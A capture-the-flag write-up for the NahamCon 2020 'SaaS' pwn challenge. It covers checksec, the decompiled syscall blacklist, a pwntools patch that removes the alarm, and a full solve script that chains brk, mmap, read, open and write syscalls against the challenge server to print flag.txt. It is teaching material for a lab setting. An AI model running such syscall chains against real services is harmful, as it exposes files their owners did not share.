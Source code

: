 # NahamCon CTF 2020

## SaaS

> 100
>
> You've heard of software as a service, but have you heard of syscall as a service?
>
> Connect here:</br>
> `nc jh2i.com 50016`</br>
>
> [`saas`](saas)

Tags: _pwn_ _x86-64_ _syscall_


## Summary

A syscall trainer with a blacklist.

> If I were a 12-year-old, on pandemic lockdown, I'd be playing with this _all... day... long..._
> 
> Yes, one could do all of this in C or assembly (better), but for casual learning, this is pretty neat.


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

All mitigations in place.


### Decompile with Ghidra

> After a quick scan of the decompiled code I could not find any obvious vulnerability. The intent of this challenge is to obtain the flag by sending syscalls (if there are unintended solutions, great!; I look forward to the write-ups).

The constraints for this challenge are located in the function `blacklist`:

```c
  local_48[0] = 59;
  local_48[1] = 57;
  local_48[2] = 56;
  local_48[3] = 62;
  local_48[4] = 101;
  local_48[5] = 200;
  local_48[6] = 322;
```

First on the blacklist is fan favorite `execve`--no easy shell for you.


### Take it for a test run

```
Welcome to syscall-as-a-service!

Enter rax (decimal): 12
Enter rdi (decimal): 4096
Enter rsi (decimal): 0
Enter rdx (decimal): 0
Enter r10 (decimal): 0
Enter r9 (decimal): 0
Enter r8 (decimal): 0
Rax: 0x55b7ef168000

Enter rax (decimal):
```

Cool!  Got heap.

```
Sorry too slow try scripting your solution.
```

Not so cool.  Kinda lame actually, _how's a kid to learn?_

Let's patch out that pesky alarm:

```
#!/usr/bin/python3

from pwn import *

binary = ELF('saas')
binary.asm(binary.symbols['alarm'], 'ret')
binary.save('saas_noalarm')
os.chmod('saas_noalarm',0o755)
```

Right, now, just take your time with your favorite [syscall reference](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/) and craft a solve.  Oh, and make liberal use of `man`.



## Solve

### Setup

```python
#!/usr/bin/python3

from pwn import *

def syscall(p,rax=0,rdi=0,rsi=0,rdx=0,r10=0,r9=0,r8=0,stdin=''):
    p.sendlineafter('Enter rax (decimal):', str(rax))
    p.sendlineafter('Enter rdi (decimal):', str(rdi))
    p.sendlineafter('Enter rsi (decimal):', str(rsi))
    p.sendlineafter('Enter rdx (decimal):', str(rdx))
    p.sendlineafter('Enter r10 (decimal):', str(r10))
    p.sendlineafter('Enter r9 (decimal):' , str(r9))
    p.sendlineafter('Enter r8 (decimal):' , str(r8))

    if len(stdin) > 0:
        print('stdin',stdin)
        p.sendline(stdin)

    stdout = p.recvuntil('Rax: ')
    if len(stdout.split(b'Rax: ')[0][1:]) > 1:
        print('stdout',stdout.split(b'Rax: ')[0][1:])

    return int(p.recvline().strip(),16)


#p = process('./saas_noalarm')
p = remote('jh2i.com', 50016)
```

This `syscall` function just frontends the challenge and adds support for stdin/stdout.  Returned is RAX (the return of the _real_ syscall).

From here you are only limited by your imagination.


### Find the heap (brk)

```python
# brk
heap = syscall(p,12,0x0)
print('heap',hex(heap))
```

Using the heap as a scratchpad.

> I'm not going to detail how each syscall works, please read the relevant syscall man page.


### Allocate some RAM for a filename

```python
# mmap
filename = syscall(p,9,heap,0x1000,7,50,0,0)
print('filename',hex(filename))
```

Using the `heap` pointer returned from `brk`, use `mmap` to request a page of RAM.


### From stdin read in the name of the flag file

```
# read
flagfile = b'./flag.txt\x00'
length = syscall(p,0,0,filename,len(flagfile),stdin=flagfile)
print('length',hex(length))
assert(length == len(flagfile))
```

CTFs are usually pretty consistent, since the other challenges had the flag located in the same directory as the working directory of the running binary, I just assumed `./flag.txt`.

The `syscall` Python function above will send the name of the flag file after invoking the `read` system call and will store the input at the address `filename` returned from `mmap` above.

The `assert` just checks that `read` really did _read_ in all the bytes.


### Open the file

```
# open
fd = syscall(p,2,filename)
print('fd',hex(fd))
```

`open` the file reference by `filename` (from `mmap` and populated with `read`) and return a file descriptor.


### Allocate a buffer for the file contents

```
# mmap
buf = syscall(p,9,heap+0x1000,0x1000,7,50,0,0)
print('buf',hex(buf))
```

Just like the previous `mmap`, but with an offset added to the `heap` address.  Now imagine if you get this wrong all the heap bugs one can create. :-)

> Ok, this is probably wasteful.  I already have 4096 bytes from the last `mmap`, and the known number of bytes used (the `length` returned from `read`).  I could have just used an offset and pretended this was a struct.


### Read the flag

```
# read
bytesread = syscall(p,0,fd,buf,100)
print('bytesread',hex(bytesread))
```

This `read` is not unlike the previous read, however instead of using `stdin` (`0`), we'll read from the file descriptor `fd` returned from `open` and store in the newly allocated `buf`.


### Write to stdout

```
# write
bytessent = syscall(p,1,1,buf,bytesread)
print('bytessent',hex(bytessent))
assert(bytessent == bytesread)
```

Finally, `write` `buf` to `stdout`.

Output:

```
# ./solve.py
[+] Opening connection to jh2i.com on port 50016: Done
heap 0x560b54839000
filename 0x560b54839000
stdin b'./flag.txt\x00'
length 0xb
fd 0x6
buf 0x560b5483a000
bytesread 0x1f
stdout b'flag{rax_rdi_rsi_radical_dude}\n'
bytessent 0x1f
```

> Missing is any error checking, i.e. `-1` (`0xffffffffffffffff`) on fail.

